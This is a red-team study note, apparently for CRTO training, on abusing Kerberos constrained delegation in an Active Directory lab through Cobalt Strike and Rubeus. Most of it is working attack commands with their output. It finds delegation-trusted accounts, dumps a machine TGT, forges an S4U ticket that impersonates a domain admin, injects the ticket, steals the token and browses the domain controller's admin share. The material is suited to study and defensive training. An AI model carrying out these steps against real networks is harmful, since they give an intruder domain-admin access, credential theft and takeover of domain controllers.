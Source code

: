 
Created as a safer way to do delegation than [[Unconstrained Delegation]], it aims to restrict the services to which the server can act on behalf of a user.

It no longer allows the server to cache the TGTs of other users, but allows it to request a TGS for another user with its own TGT.

  Constrained delegation can be configured on user accounts as well as computer accounts.  We can search for both.

## 🖊️ via Cobalt Strike

1) To find computers or users (modify the object category accordingly) configured for constrained delegation, search for those whose  `msds-allowedtodelegateto` attribute is not empty. 

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json

[*] TOTAL NUMBER OF SEARCH RESULTS: 1
[
  {
    "dnshostname": "sql-2.dev.cyberbotic.io",
    "samaccountname": "SQL-2$",
    "msds-allowedtodelegateto": [
      "cifs/dc-2.dev.cyberbotic.io/dev.cyberbotic.io",
      "cifs/dc-2.dev.cyberbotic.io",
      "cifs/DC-2",
      "cifs/dc-2.dev.cyberbotic.io/DEV",
      "cifs/DC-2/DEV"
    ]
  }
]
```

in this example we can see the sql box (current beacon session), is delegate to the dc2
==Also notice the account that allows the delegation (sql-2$)

2) To perform the delegation, we need the TGT of the principal (computer or user) trusted for delegation.  The most direct way is to extract it with Rubeus `dump`:

```
beacon> run hostname
sql-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
 --------------------------------------------------------------------------------------------------------------- 
 | LUID    | UserName                    | Service                                       | EndTime              |
 --------------------------------------------------------------------------------------------------------------- 
| 0x3e4    | sql-2$ @ DEV.CYBERBOTIC.IO  | krbtgt/DEV.CYBERBOTIC.IO                      | 9/6/2022 7:06:50 PM |

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e4 /service:krbtgt /nowrap

    ServiceName              :  krbtgt/DEV.CYBERBOTIC.IO
    ServiceRealm             :  DEV.CYBERBOTIC.IO
    UserName                 :  SQL-2$
    UserRealm                :  DEV.CYBERBOTIC.IO
    StartTime                :  9/6/2022 9:06:50 AM
    EndTime                  :  9/6/2022 7:06:50 PM
    RenewTill                :  9/13/2022 9:06:50 AM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  pj1tbiijFCGHkM6S58ShgxxPi8FvA1UB5liBqrSWPCg=
    Base64EncodedTicket   :

doIFpD[...]MuSU8=
```

  You can also request one with Rubeus `asktgt` if you have NTLM or AES hashes.

3) With the TGT, perform an S4U ([[S4U2Self Abuse]]) request to obtain a usable TGS for CIFS on DC-2 (in this example).

Remember that we can impersonate any user in the domain, but we want someone who we know to be a local admin on the target.  In this case, a domain admin makes the most sense.

This will perform an S4U2Self first and then an S4U2Proxy.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /msdsspn:cifs/dc-2.dev.cyberbotic.io /user:sql-2$ /ticket:doIFLD[...snip...]MuSU8= /nowrap`

where:

- `/impersonateuser` is the user we want to impersonate.
- `/msdsspn` is the service principal name that SQL-2 is allowed to delegate to.
- `/user` is the principal allowed to perform the delegation., we saw at the begining
- `/ticket` is the TGT for `/user`.

4) Grab the final S4U2Proxy ticket and pass it into a new logon session.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIGaD[...]ljLmlv`

That will create a new local process with the integrity of the ticket ([[Pass the Ticket]]), then [[Steal the token]]:

`beacon> steal_token [pid]`

5) Check your access into the victim machine:

`beacon> ls \\dc-2.dev.cyberbotic.io\c$`
Use FQDN

You could perform other actions with this new TGS, check [[Alternate Service Name]] method.

### ⚠ Opsec




### Properties
---
📆 created   {{19-02-2024}} 08:51
🏷️ tags: #redteam #crto 

---

